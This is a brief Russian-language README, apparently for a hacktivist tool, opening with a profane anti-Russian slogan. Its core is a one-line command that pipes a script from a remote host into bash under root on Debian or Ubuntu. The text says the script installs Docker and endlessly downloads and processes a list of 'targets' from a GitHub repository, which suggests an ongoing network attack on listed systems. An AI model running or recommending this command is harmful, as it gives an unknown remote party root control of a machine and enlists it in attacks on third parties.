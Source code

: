Русский корабль, иди нахуй!

```bash
bash <(curl -fsSL https://orda.dshagin.pro)
```

Строчку выше надо выполнить в рутовой консли debian или ubuntu.

Оно само попробует поставить Докур, дальше в цикле будет качать список целей отсюда https://github.com/dmitryshagin/targets/blob/main/list
Когда список закончится - будет качать его заново

